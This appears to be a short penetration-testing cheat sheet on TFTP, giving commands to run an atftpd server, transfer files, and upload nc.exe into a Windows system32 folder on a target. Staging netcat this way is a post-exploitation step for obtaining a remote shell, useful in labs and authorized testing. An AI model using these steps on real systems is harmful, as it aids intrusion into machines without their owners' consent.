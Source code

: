 # tftp

## upload file
```bash
tftp $IP
```
in tftp prompt
```
mode binary
put nc.exe c:\windows\system32\nc.exe
```

## start daemon (folder /var/tftp)
```bash
atftpd --daemon --port 69 /var/tftp
```

## transfer Files
```bash
tftp -i 192.168.0.1 GET whoami.exe
```

